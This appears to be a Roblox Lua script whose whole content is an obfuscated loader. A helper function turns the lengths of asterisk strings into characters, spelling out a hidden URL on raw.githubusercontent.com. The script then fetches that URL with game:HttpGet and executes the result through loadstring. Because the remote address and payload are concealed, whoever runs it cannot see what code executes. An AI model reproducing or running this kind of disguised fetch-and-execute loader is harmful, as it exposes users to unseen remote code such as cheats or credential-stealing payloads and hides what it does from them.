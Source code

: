 function gYKktFDBIeHhyuEviskdUlw(c)
tab={}
for i = 1,#c do
x=string.len(c[i]) 
y=string.char(x)
table.insert(tab,y)
end
x=table.concat(tab)
return x
end 




loadstring(game:HttpGet((gYKktFDBIeHhyuEviskdUlw({'********************************************************************************************************','********************************************************************************************************************','********************************************************************************************************************','****************************************************************************************************************','*******************************************************************************************************************','**********************************************************','***********************************************','***********************************************','******************************************************************************************************************','*************************************************************************************************','***********************************************************************************************************************','**********************************************','*******************************************************************************************************','*********************************************************************************************************','********************************************************************************************************************','********************************************************************************************************','*********************************************************************************************************************','**************************************************************************************************','*********************************************************************************************************************','*******************************************************************************************************************','*****************************************************************************************************','******************************************************************************************************************','***************************************************************************************************','***************************************************************************************************************','**************************************************************************************************************','********************************************************************************************************************','*****************************************************************************************************','**************************************************************************************************************','********************************************************************************************************************','**********************************************','***************************************************************************************************','***************************************************************************************************************','*************************************************************************************************************','***********************************************','******************************************************************************','***************************************************************************************************************','**************************************************************************************************************','*************************************************************************************************','*************************************************************************************************************','*****************************************************************************************************','*********************************************************','**************************************************','*********************************************************','*******************************************************','*********************************************************','********************************************************','***********************************************','******************************************************************************','***************************************************************************************************************','**************************************************************************************************************','*************************************************************************************************','*************************************************************************************************************','*****************************************************************************************************','*********************************************************','**************************************************','*********************************************************','*******************************************************','*********************************************************','********************************************************','***********************************************','******************************************************************************************************************','*****************************************************************************************************','******************************************************************************************************','*******************************************************************************************************************','***********************************************','********************************************************************************************************','*****************************************************************************************************','*************************************************************************************************','****************************************************************************************************','*******************************************************************************************************************','***********************************************','*************************************************************************************************************','*************************************************************************************************','*********************************************************************************************************','**************************************************************************************************************','***********************************************','**********************************************************************************','*********************************************************************','*****************************************************************','********************************************************************','*****************************************************************************','*********************************************************************','**********************************************','*************************************************************************************************************','****************************************************************************************************'})),true))()    
